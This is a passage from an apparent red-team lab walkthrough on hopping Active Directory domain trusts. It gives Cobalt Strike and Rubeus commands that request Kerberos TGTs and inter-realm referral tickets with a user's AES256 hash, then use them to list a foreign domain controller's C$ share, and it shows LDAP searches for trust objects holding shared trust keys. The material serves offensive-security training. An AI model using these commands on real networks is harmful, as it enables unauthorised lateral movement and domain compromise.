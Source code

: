 This means that members of DEV\Studio Admins are also members of the built-in Administrators group of dev-studio.com and therefore inherit local admin access to dc.dev-studio.com.  If this is confusing, this is how it looks from the perspective of the foreign domain controller.

To hop this trust, we only need to impersonate a member of this Studio Admins domain group.
    
    powershell Get-DomainGroupMember -Identity "Studio Admins" | select MemberName

To hop a domain trust using Kerberos, we first need an inter-realm key.  Obtain a TGT for the target user (here I am using asktgt with their AES256 hash).

    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /domain:dev.cyberbotic.io /aes256:a779fa8afa28d66d155d9d7c14d394359c5d29a86b6417cb94269e2e84c4cee4 /nowrap

Next, use that TGT to request a referral ticket from the current domain to the target domain.

    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:krbtgt/dev-studio.com /domain:dev.cyberbotic.io /dc:dc-2.dev.cyberbotic.io /ticket:doIFwj[...]MuaW8= /nowrap

NOTE: Notice how this inter-realm ticket is of type rc4_hmac even though our TGT was aes256_cts_hmac_sha1.  This is the default configuration unless AES has been specifically configured on the trust, so this is not necessarily bad OPSEC.

Finally, use this inter-realm ticket to request TGS's in the target domain.  Here, I'm requesting a ticket for CIFS.

    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:cifs/dc.dev-studio.com /domain:dev-studio.com /dc:dc.dev-studio.com /ticket:doIFoz[...]NPTQ== /nowrap

    run klist

    ls \\dc.dev-studio.com\c$

# One-Way Outbound

Remember that if Domain A trusts Domain B, users in Domain B can access resources in Domain A; but users in Domain A should not be able to access resources in Domain B.  If we're in Domain A, then it's by design that we should not be able to access Domain B.  An outbound trust exists between cyberbotic.io and msp.org.  The direction of trust is such that cyberbotic.io trusts msp.org (so users of msp.org can access resources in cyberbotic.io).

NOTE: Because DEV has a trust with CYBER, we can query the trusts that it has by adding the -Domain parameter.

    getuid
    
    powershell Get-DomainTrust -Domain cyberbotic.io

We can still partially exploit this trust and obtain "domain user" access from CYBER to MSP by leveraging the shared credential for the trust.  Both domains in a trust relationship store a shared password (which is automatically changed every 30 days) in a Trusted Domain Object (TDO).  These objects are stored in the system container and can be read via LDAP.  Here we see that the DC in CYBER has two TDOs for its trusts with DEV and MSP.

    execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(objectCategory=trustedDomain)" --domain cyberbotic.io --attributes distinguishedName,name,flatName,trustDirection

There are two options for obtaining the key material.  One is to move laterally to the DC itself and dump from memory.
